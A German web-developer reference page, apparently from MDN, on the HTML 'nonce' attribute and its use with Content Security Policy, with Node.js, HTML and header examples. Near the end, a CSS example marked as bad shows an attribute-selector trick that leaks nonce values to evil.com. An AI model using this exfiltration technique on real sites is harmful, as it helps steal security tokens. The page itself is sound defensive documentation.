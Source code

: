 ```yaml
---
title: HTML-Attribut `nonce`
short-title: nonce
slug: Web/HTML/Reference/Global_attributes/nonce
l10n:
  sourceCommit: 7885271e36e9d2744296c01f400653f63caa6f75
---
```


{{HTMLSidebar("Global_attributes")}}

Das **`nonce`** [globale Attribut](/de/docs/Web/HTML/Reference/Global_attributes) ist ein Inhaltsattribut, das eine kryptographische Nonce ("Zahl, die einmal verwendet wird") definiert. Es kann von der [Content Security Policy (CSP)](/de/docs/Web/HTTP/Guides/CSP) verwendet werden, um zu bestimmen, ob ein bestimmter Abruf für ein bestimmtes Element durchgeführt werden darf.

## Beschreibung

Das Attribut `nonce` ist nützlich, um bestimmte Elemente auf die Allowlist zu setzen, wie z.B. ein bestimmtes Inline-Skript oder Stil-Elemente. Es kann Ihnen helfen, die Verwendung der [CSP](/de/docs/Web/HTTP/Guides/CSP) `unsafe-inline`-Direktive zu vermeiden, die _alle_ Inline-Skripte oder -Stile auf die Allowlist setzen würde.

> [!NOTE]
> Verwenden Sie `nonce` nur in Fällen, in denen Sie keine andere Möglichkeit haben, unsichere Inline-Skript- oder Stil-Inhalte zu vermeiden. Wenn Sie `nonce` nicht benötigen, verwenden Sie es nicht. Wenn Ihr Skript statisch ist, könnten Sie stattdessen einen CSP-Hash verwenden.
> (Siehe Hinweise zur Verwendung von [unsicheren Inline-Skripten](/de/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/script-src#unsafe_inline_script).)
> Versuchen Sie immer, die [CSP](/de/docs/Web/HTTP/Guides/CSP)-Schutzmaßnahmen vollständig zu nutzen und vermeiden Sie Nonces oder unsichere Inline-Skripte wann immer möglich.

### Verwendung von nonce zum Erstellen einer Allowlist für ein `<script>`-Element

Es gibt einige Schritte, um ein Inline-Skript mit dem Nonce-Mechanismus auf die Allowlist zu setzen:

#### Generierung von Werten

Generieren Sie von Ihrem Webserver aus einen zufälligen, base64-codierten String von mindestens 128 Bit Daten aus einem kryptographisch sicheren Zufallszahlengenerator. Nonces sollten jedes Mal unterschiedlich sein, wenn die Seite geladen wird (Nonce nur einmal!). Zum Beispiel in nodejs:

```js
import crypto from "node:crypto";

crypto.randomBytes(16).toString("base64");
// '8IBTHwOdqNKAWeKl7plt8g=='
```

#### Allowlisting von Inline-Skript

Die im Backend-Code generierte Nonce sollte nun für das Inline-Skript verwendet werden, das Sie auf die Allowlist setzen möchten:

```html
<script nonce="8IBTHwOdqNKAWeKl7plt8g==">
  // …
</script>
```

#### Senden einer Nonce mit einem CSP-Header

Sie müssen schließlich den Nonce-Wert in einem [`Content-Security-Policy`](/de/docs/Web/HTTP/Reference/Headers/Content-Security-Policy)-Header senden (vorangestellt mit `nonce-`):

```http
Content-Security-Policy: script-src 'nonce-8IBTHwOdqNKAWeKl7plt8g=='
```

### Zugriff auf Nonces und das Verbergen von Nonces

Aus Sicherheitsgründen ist das Attribut `nonce` im Inhalt versteckt (ein leerer String wird zurückgegeben).

```js example-bad
script.getAttribute("nonce"); // returns empty string
```

Die [`nonce`](/de/docs/Web/API/HTMLElement/nonce)-Eigenschaft ist der einzige Weg, um auf Nonces zuzugreifen:

```js example-good
script.nonce; // returns nonce value
```

Das Verbergen von Nonces hilft, Angreifer daran zu hindern, Nonce-Daten über Mechanismen zu extrahieren, die Daten aus Inhaltsattributen abrufen können, wie folgt:

```css example-bad
script[nonce~="whatever"] {
  background: url("https://evil.com/nonce?whatever");
}
```

## Spezifikationen

{{Specifications}}

## Browser-Kompatibilität

{{Compat}}

## Siehe auch

- [`HTMLElement.nonce`](/de/docs/Web/API/HTMLElement/nonce)
- [Content Security Policy](/de/docs/Web/HTTP/Guides/CSP)
- CSP: [`script-src`](/de/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/script-src)
